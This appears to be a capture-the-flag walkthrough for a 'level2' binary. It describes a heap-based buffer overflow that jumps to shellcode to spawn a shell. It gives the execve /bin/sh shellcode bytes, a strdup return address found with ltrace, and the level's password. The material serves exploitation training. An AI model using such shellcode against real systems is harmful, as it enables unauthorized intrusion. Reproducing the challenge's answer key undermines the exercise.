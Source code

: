 
# Walkthrough

> **The Goal:**make buffer overflow to launch a shell pogram, the idea is to exploit the heap because the stack it protected<br/>
> Filled the buffer then jump to the heap  address to executed the shellcode

1. ## Get the offset 
![Alt Offset](offset.png)


2. ## [Shellcode](http://shell-storm.org/shellcode/files/shellcode-575.html)
  `\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80`

3. ## Get the return Address<br/>
I used `ltrace ./level2` to get the return address of strdup `0x0804a008` 

4. ## Exploit the buffer overflow 
![Alt Exploit](find.png)<br/>
Password : `492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02`
